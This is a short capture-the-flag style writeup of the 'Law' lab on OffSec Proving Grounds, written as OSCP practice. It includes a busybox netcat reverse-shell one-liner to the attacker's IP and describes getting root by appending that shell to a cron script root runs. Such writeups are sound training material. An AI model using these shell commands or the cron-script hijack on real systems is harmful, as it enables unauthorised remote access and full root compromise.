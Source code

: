```yaml
---
title: "Law - Proving Grounds"
excerpt: "A Writeup of the Law Box from Proving Grounds<br><img src='/images/Law/Law_1.png'>"
collection: portfolio
---
```



Here is a writeup for the Law lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). Let's kick things off as usual with an nmap scan, using `-v` so we can investigate as we go. We see there is a web server on port 80 and check it out. 

![Law_1.png](/images/Law/Law_1.png){: .center-aligned width="600px"}

From the project's github, HTMLawed is "a highly customizable PHP script to sanitize / make (X)HTML secure against XSS attacks, so users can edit HTML without risk of your site getting compromised by evildoers." Noted.

We find an exploit-db shell script, but through Google rather than exploit-db or searchsploit because it is actually misspelled with two "L's". 

![Law_4.png](/images/Law/Law_4.png){: .center-aligned width="600px"}

It seems to work immediately with the busybox shell: `busybox nc 192.168.45.154 80 -e /bin/bash`. Exciting, I feel like I never see that. Maybe the privesc is the tough part. 

![Law_3.png](/images/Law/Law_3.png){: .center-aligned width="600px"}

This time I `cd ..` my way out of the working directory in case I see a local.txt file, and I do in `/var/www`. Cool. I missed that on the Crane box. 

I can't run `sudo -l` without a password, and I don't see any interesting SUID binaries when I run `find / -type f -perm -u=s 2>/dev/null`, so I download linpeas to check things out and run it. Unfortunately nothing jumps out at me immediately beyond kernel exploits like PwnKit and DirtyPipez. Usually I want to avoid this in a lab environment like this as it is likely the creators had a different path planned, but I'll make a note of them. 

I download and run pspy64 to see if I can find anything interesting there while I think, and I see this: `2024/07/20 17:48:01 CMD: UID=0     PID=14435  | /bin/bash /var/www/cleanup.sh` run a few times. That could be interesting if root is running it, and we can modify. We can tell root is running it because it says the `UID=0`. We could also tell if we ran `lse.sh -l1`, but not linpeas. 

Turns out we can, so we add the busybox shell to the cleanup script and wait. 

![Law_2.png](/images/Law/Law_2.png){: .center-aligned width="600px"}

![Law_5.png](/images/Law/Law_5.png){: .center-aligned width="600px"}

A minute later, we catch a root shell, and snag the proof.txt. Nice!

This machine was fairly straightforward once I googled the web service and realized it was misspelled. Then is was just a matter of seeing what processes were running and realize I could abuse one of them. Also - another win for the busybox shell, that's good to know. 
